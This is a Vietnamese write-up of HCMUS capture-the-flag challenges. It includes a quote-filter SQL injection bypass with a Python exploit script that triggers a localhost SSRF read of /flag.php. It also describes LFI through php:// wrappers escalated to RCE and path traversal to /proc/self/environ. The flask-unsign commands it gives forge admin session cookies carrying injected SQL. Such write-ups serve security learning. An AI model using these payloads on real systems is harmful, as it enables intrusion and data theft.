 # SHOP CUTIES V3

Sau khi đọc qua source code, thì mình thấy bài này sử dụng concat string trong câu query, nên khả năng cao là dính SQli, ở đây tác giả filter 2 kí tự đó `'` và  `"` 

```
 if (preg_match("/'|\"/", $_POST['username']) || preg_match("/'|\"/", $_POST['password']))
                die("Làm ơn đừng hack 😵😵😵");
            $sql = "select username, path from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
            $sth = $conn->query($sql);
            $sth->setFetchMode(PDO::FETCH_ASSOC);
            if ($sth->rowCount() > 0){
                $row = $sth->fetch();
                {
                    $_SESSION['username'] = $row['username'];
                    $_SESSION['api_path'] = $row['path']; 
                    die(header("location: shopping.php"));
                }
            }
            else {
                $message = "Sai tên và mật khẩu rồi 😅";
            }
```

Ở đây mình sử dụng dấu `\` để bypass đoạn check này, `username=blabla\&password=union select 1337,1337 -- -`

Câu truy vấn sẽ thành như sau `select username, path from users where username='blalbal\'&password='union select 1337,1337 -- -`

Lúc này trên server sẽ đọc biến `username=blalbal\'&password=` và câu lệnh union phía sau đã được thi. 

SQLI thành công, nhưng bài này nếu chỉ sqli thì ko đọc được flag.  Vì flag nằm ở path `/flag.php`

Ta nhìn kĩ lại ở dòng này

` $_SESSION['api_path'] = $row['path'];`

Giá trị này sẽ được sử dụng ở file `shopping.php`

`$items = json_decode(file_get_contents(BASE_API_URL . $_SESSION["api_path"] . "/items.json"))->{"msg"};`

Và giá trị `$_SESSION['api_path']` này ta có thể thay đổi dựa vào câu union ở trên. Mục tiêu của ta là đọc được `/flag.php`

Vậy giá trị `$_SESSION['api_path']='@127.0.0.1:32181/flag.php#'` là ta có thể đọc được

Ở đây mình sử dụng 2 function là hex và unhex trong mysql để bypass `"`, `'` vì server không cho sử dụng 2 dấu này

Script để lấy flag 
```
import requests

session = requests.session()
URL = "http://103.245.250.31:32181/login.php"
COOKIES = {"PHPSESSID": "1d6e436162c9045b3d6a42a6dd679c91"}

DATA = {"username": "lol\\", "password": "union select 122,concat(unhex(40),unhex(31),unhex(32),unhex(37),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(30),unhex(hex(46)),unhex(31),unhex(hex(47)),unhex(66),unhex(hex(108)),unhex(61),unhex(67),unhex(hex(46)),unhex(70),unhex(68),unhex(70),unhex(23))-- -"}
resp = session.post(URL, cookies=COOKIES, data=DATA).text
print(resp)

```


# NO BACKEND 

Bài này mình sài lệnh wget -i URL, để tải hết các file có trên trang web về sau đó sài lệnh grep HCMUS là có flag


# URL Storing 

Bài này dính lỗi LFI ở tham số `page` . Ở đây mình sử dụng php://wrapper để lấy source về. 

Bài này mình sẽ RCE bằng cách chèn một đoạn code php vào `$_POST['url']` nội dung này sẽ được ghi vào file /db/session_id.db. Sau đó gọi đến file này thông qua  lỗi LFI để RCE 


# SECURE NOTE 

Bài này dính lỗi Path traversal , từ đó mình đọc được source code và file /proc/self/environ (chứa secret_key dùng để sign cái session)

```
def waf_filter(s): 
    forbids = ["'", '"', '*', '\\', '/', '#', ';', '--'] 
    for c in forbids: 
        if c in s: s = s.replace(c, '')
    return s
```

![](2022-05-16-15-28-42.png)

Ta sử dụng array là có thể bypass được waf.

Payload bên dưới dùng đề lấy secret_key của admin

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":["union select 1,2,3,4,group_concat(secret_key) from users where username=0x61646D696E-- -"]}'`

Có được secret_key thì đọc flag nữa là xong

`flask-unsign --sign --secret "oHhh_n0000OooooO___YoU_shOUldnt_kn0vv_mY_k3333yyyy" --cookie '{"secret_key":"a7c12766bab05dd16fba6d6d3aee3d23","username":"admin"}'`



# BABY DROID 

Bài cho một file apk, tải về sau đó mình sử dụng jadx để decompile file và đọc source code. 

Ở đây có hàm checkFlag()

```
public class FlagValidator {
    public static boolean checkFlag(Context ctx, String flag) {
        String result = Helper.retriever();
        if (flag.startsWith("HCMUS-CTF{") && flag.charAt(19) == '_' && flag.length() == 37 && flag.toLowerCase().substring(10).startsWith("this_is_") && flag.charAt(((int) (MagicNum.obtainY() * Math.pow(MagicNum.obtainX(), MagicNum.obtainY()))) + 2) == flag.charAt(((int) Math.pow(Math.pow(2.0d, 2.0d), 2.0d)) + 3) && new StringBuilder(flag).reverse().toString().toLowerCase().substring(1).startsWith(ctx.getString(R.string.last_part)) && new StringBuilder(flag).reverse().toString().charAt(0) == '}' && Helper.ran(flag.toUpperCase().substring((MagicNum.obtainY() * MagicNum.obtainX() * MagicNum.obtainY()) + 2, (int) (Math.pow(MagicNum.obtainZ(), MagicNum.obtainX()) + 1.0d))).equals("ERNYYL") && flag.toLowerCase().charAt(18) == 'a' && flag.charAt(18) == flag.charAt(28) && flag.toUpperCase().charAt(27) == flag.toUpperCase().charAt(28) + 1) {
            return flag.substring(10, flag.length() - 1).matches(result);
        }
        return false;
    }
}
```
Sau khi reverse đống code trên ta được `HCMUS-CTF{this_is_a_really_basic_rev}` , nhưng mà flag thật thì nó còn gọi đến hàm retriever(), nó sẽ đan xen chữ hoa chữ thường. `HCMUS-CTF{ThIs_iS_A_ReAlLy_bAsIc_rEv}`
